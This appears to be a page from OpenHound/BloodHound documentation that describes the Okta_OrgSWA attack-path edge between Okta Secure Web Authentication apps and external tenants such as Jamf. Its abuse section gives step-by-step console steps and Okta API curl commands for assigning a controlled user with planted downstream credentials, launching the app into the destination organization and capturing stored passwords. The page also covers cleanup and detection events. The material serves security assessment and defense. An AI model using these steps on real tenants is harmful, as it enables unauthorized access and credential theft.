

## General Information

The non-traversable Okta_OrgSWA edges represent Secure Web Authentication relationships between Okta applications and supported external organizations or tenants. SWA stores or submits downstream credentials through Okta instead of using SAML or OIDC federation.


```mermaid
graph LR
  subgraph okta["OpenHound Okta"]
    direction TB
    o("Okta_Organization contoso.okta.com")
    app1("Okta_Application Jamf Pro SWA")
    o -- Okta_Contains --> app1
  end
  subgraph "Jamf"
    direction TB
    jamf("jamf_SSOIntegration contoso.jamfcloud.com-SSO")
    app1 -. Okta_OrgSWA .-> jamf
  end
```

The respective BloodHound collectors, such as OpenHound Jamf for Jamf Pro tenants, must be used to gather the external organization node information.

## Abuse Info

An attacker who controls the source SWA application can influence credential submission into the destination organization. An attacker who controls a user assigned to the source SWA application can launch the app and let Okta submit the stored downstream credential. The edge is organization-level, so the final impact depends on which downstream account the assigned user's SWA credential logs in as.

Unlike `Okta_OutboundOrgSSO`, this edge does not depend on federation claims. The destination organization sees password-based authentication. That makes the stored credential and the destination application's session controls central to the abuse path.

Using the Admin Console and SWA app:

1. Gain access to an Okta user assigned to the source SWA application, or gain administrative control of the source app.
2. Open **Applications** > **Applications** and select the SWA application.
3. Review the sign-on mode, target URL, app username format, and who sets the SWA password.
4. If using the assigned-user path, sign in as the assigned user and launch the app from the Okta dashboard or browser plugin.
5. If using the app-admin path, assign a controlled user and set or reset that user's app username and password for the downstream organization.
6. Let Okta submit the stored credentials to the destination organization.
7. Verify the destination organization session, account, group, or role.
8. If tenant settings or browser behavior expose the stored credential, capture it and test direct login to the destination organization.

Using the Okta API:

1. Set variables for the source SWA application, controlled Okta user, and SWA credentials.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export SWA_APP_ID="0oa..."
    export CONTROLLED_USER_ID="00u..."
    export SWA_USERNAME="admin@example.com"
    export TEMP_SWA_PASSWORD="CorrectHorseBatteryStaple!23"
    ```

2. Retrieve and save the source SWA app configuration.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SWA_APP_ID" \
      | tee /tmp/okta-org-swa-app-original.json \
      | jq '{id, label, name, status, signOnMode, url: .settings.app.url, credentials: .credentials.scheme}'
    ```

3. Assign the controlled user to the SWA app with a downstream username and password when you have app administration rights.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"id\":\"$CONTROLLED_USER_ID\",\"credentials\":{\"userName\":\"$SWA_USERNAME\",\"password\":{\"value\":\"$TEMP_SWA_PASSWORD\"}}}" \
      "$OKTA_ORG/api/v1/apps/$SWA_APP_ID/users" \
      | jq '{id, status, scope, credentials, profile}'
    ```

4. Verify the controlled user's SWA app assignment.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SWA_APP_ID/users/$CONTROLLED_USER_ID" \
      | jq '{id, status, scope, credentials, profile}'
    ```

5. Revoke the controlled user's Okta sessions if you need a clean browser session, then re-authenticate and launch the SWA app.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true"
    ```

6. Complete the SWA launch in a browser and verify the destination organization access with the destination organization's UI or API.

If the source application is managed by the attacker, they may also be able to change the target URL or credential settings to redirect credential submission. That path is disruptive and more likely to be detected, so save the original app object before changing it.

## Cleanup after Abuse

Cleanup for `Okta_OrgSWA` means restoring the source SWA application's URL, credential behavior, app assignments, and app-user credentials, then rotating exposed downstream passwords and revoking destination organization sessions.

Cleanup using Admin Console:

1. Open the source SWA application in Okta.
2. Restore the SWA target URL, app username format, sign-on settings, and credential-setting behavior.
3. Remove temporary user or group assignments.
4. Restore legitimate app-user credentials or rotate the downstream password if it was exposed or replaced.
5. Sign out of the destination organization and revoke downstream sessions or tokens.
6. Verify the temporary principal can no longer reach the destination organization.

Cleanup using API:

1. Restore the saved source app configuration if URL or app settings changed.

    ```bash
    curl -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d @/tmp/okta-org-swa-app-original.json \
      "$OKTA_ORG/api/v1/apps/$SWA_APP_ID" \
      | jq '{id, label, status, signOnMode, url: .settings.app.url}'
    ```

2. Restore the controlled user's SWA app credential if the assignment should remain for a legitimate user.

    ```bash
    export RESTORED_SWA_PASSWORD="REDACTED_RESTORED_PASSWORD"

    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"credentials\":{\"userName\":\"$SWA_USERNAME\",\"password\":{\"value\":\"$RESTORED_SWA_PASSWORD\"}}}" \
      "$OKTA_ORG/api/v1/apps/$SWA_APP_ID/users/$CONTROLLED_USER_ID" \
      | jq '{id, status, credentials, profile}'
    ```

3. Remove a temporary app assignment if the controlled user should no longer have SWA access.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SWA_APP_ID/users/$CONTROLLED_USER_ID"
    ```

4. Revoke Okta sessions and OAuth tokens for the controlled user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the assignment state.

    ```bash
    curl -i -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$SWA_APP_ID/users/$CONTROLLED_USER_ID"
    ```

6. Use the destination organization's API to revoke password-based sessions, rotate exposed credentials, and confirm the old password no longer works.

## Opsec Considerations

SWA app launches are visible in Okta, and the destination organization sees password-based login events from the attacker's browser context. Okta events can include `application.user_membership.show_password`, `application.user_membership.restore_password`, `application.user_membership.update`, `application.user_membership.add`, `application.user_membership.remove`, `policy.evaluate_sign_on`, and `user.authentication.sso`.

Changing the SWA target URL, setting app-user passwords, or revealing stored credentials can generate obvious administrative telemetry and may break access for legitimate users. Downstream defenders may see a normal password login rather than a federated login, which can make the login look anomalous if the organization usually uses SSO.

## References

- [Okta SWA app integrations](https://help.okta.com/oie/en-us/Content/Topics/Apps/apps-about-swa.htm)
- [Okta create SWA app integration guide](https://developer.okta.com/docs/guides/create-an-app-integration/swa/main/)
- [Okta Applications API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Application/)
- [Okta Application Users API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationUsers/)
- [Okta Application Groups API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/ApplicationGroups/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Luke Jennings: Abusing Okta's SWA authentication method](https://pushsecurity.com/blog/okta-swa/)
